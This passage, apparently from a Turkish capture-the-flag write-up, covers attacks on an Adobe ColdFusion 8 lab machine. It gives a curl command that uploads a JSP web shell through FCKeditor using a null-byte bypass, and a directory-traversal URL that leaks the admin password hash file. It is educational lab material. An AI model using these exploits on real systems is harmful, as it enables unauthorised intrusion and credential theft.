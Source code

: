 **curl komutumu güncelleyeceğim**. **-F** argümanında **header'ları form datası içinde** `;` ile ayırarak ayarlayabilirim:

```
curl -X POST -F "newfile=@shell.jsp;type=application/x-java-archive;filename=shell.txt" 'http://10.10.10.11:8500/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/df.jsp%00'
```

Şimdi /userfiles/file/ adresini ziyaret ettiğinizde yüklenen shell'i görebilirsiniz:

![Pasted image 20250209193410.png](/img/user/resimler/Pasted%20image%2020250209193410.png)


#### Execute Shell

Bu url'yi curl ile ziyaret edebilirim:

![Pasted image 20250209193550.png](/img/user/resimler/Pasted%20image%2020250209193550.png)

![Pasted image 20250209193613.png](/img/user/resimler/Pasted%20image%2020250209193613.png)

Oradan user.txt dosyasını alabilirim:

### Path 2: Leak Hash, Upload JSP

#### Directory Traversal / Password Hash Leak

Searchsploit'ten alınan bu iki sonuç bir directory traversal güvenlik açığını göstermektedir:

```
Adobe ColdFusion - Directory Traversal                                                                  | multiple/remote/14641.py
Adobe ColdFusion - Directory Traversal (Metasploit)                                                     | multiple/remote/16985.rb
```


Python script'ini incelediğimde, **GET isteğini** şu adrese gönderdiğini görüyorum:

```
http://server/CFIDE/administrator/enter.cfm
```

Bu istekte, **locale** parametresi kullanılarak **birkaç dizin yukarı çıkılıyor** ve belirli bir dosyaya erişilmeye çalışılıyor. İstek, `%00en` ile sona eriyor.

Muhtemelen site, **locale** parametresinin belirli bir string ile bitmesini zorunlu kılıyor. Ancak, exploit **null byte (%00)** kullanarak bu kontrolü atlatıyor ve yine de hedef dosyaya erişiyor.

Örnekteki dosya özellikle dikkat çekici çünkü **password.properties** dosyası. Bu dosyayı almak için şu URL'yi ziyaret edeceğim:

```
http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```

![Pasted image 20250209194459.png](/img/user/resimler/Pasted%20image%2020250209194459.png)
